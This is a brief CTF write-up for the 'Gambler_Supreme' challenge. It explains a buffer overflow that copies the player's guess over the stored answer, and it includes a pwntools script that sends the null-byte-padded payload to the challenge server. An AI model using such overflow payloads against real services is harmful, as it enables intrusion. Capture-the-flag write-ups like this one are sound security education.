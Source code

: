 # Gambler_Supreme
## Description
This challenge gives you an ELF file and remote server that ask you to guess random strings to get coins. Getting enough coins gives you the flag. This time, the random seed is not static.
## Solution
You can overflow the buffer for your guess into the buffer for the correct solution. By making both strings identical you will win and get coins. You need to put null bytes (`\x00`) in between the two buffers because a null byte denotes the end of a string. Otherwise, the first string would keep going until the end of the second string.
## Solve Script
```py
from pwn import *  
context.log_level = "critical"  
r = remote('ctf.b01lers.com', 9203)  
for _ in range(89):  
    r.recvuntil(b"letters: ")  
    r.send(b"a" * 4 + b"\x00" * 4 + b"a" * 4 + b"\n")  
r.send(b"a" * 4 + b"\x00" * 4 + b"a" * 4 + b"\n")  
r.interactive()
```
